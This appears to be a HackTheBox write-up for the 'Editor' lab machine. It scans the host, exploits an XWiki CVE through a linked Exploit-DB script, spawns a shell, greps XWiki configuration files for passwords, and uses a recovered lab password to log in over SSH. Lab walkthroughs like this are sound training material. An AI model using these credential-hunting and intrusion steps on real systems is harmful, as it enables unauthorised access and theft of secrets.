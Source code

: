 # Editor - HackTheBox 

## 1.1 Nmap scan

Performed to identify open ports, services, versions, and operating system:

```bash
nmap -A -T4 10.10.11.80 -oN portscan.txt
```
## 1.2 Nuclei scan for vulnerabilities

Performed to identify known vulnerabilities in the machine's HTTP service:

```bash
nuclei -u http://wiki.editor.htb -o nuclei.txt
```

* The scan identified the vulnerability CVE-2025-24893 (details looked up on Exploit-DB)

---

## 2. Exploitation

### 2.1 Exploit adjustment

Based on the exploit found at [Exploit-DB #52136](https://www.exploit-db.com/exploits/52136), it was necessary to modify the HTTPS address to work correctly against the target.

### 2.2 Interactive shell access

Python interactive shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## 3. Enumeration

### 3.1 User directories

Listing the `/home` directory to discover system users:

```bash
ls /home
```

Output:

```
oliver
```

### 3.2 Searching for passwords in configuration files

Searched for possible passwords inside the `/etc/xwiki` directory:

```bash
grep -iR "pass" /etc/xwiki/*
```

Found the password:

```
theEd1t0rTeam99
```

---

## 4. SSH access

With the discovered user and obtained password, it was possible to connect via SSH:

```bash
ssh -4 oliver@editor.htb
```

* `-4`: force IPv4 connection
* User: `oliver`
* Password: `theEd1t0rTeam99`

---
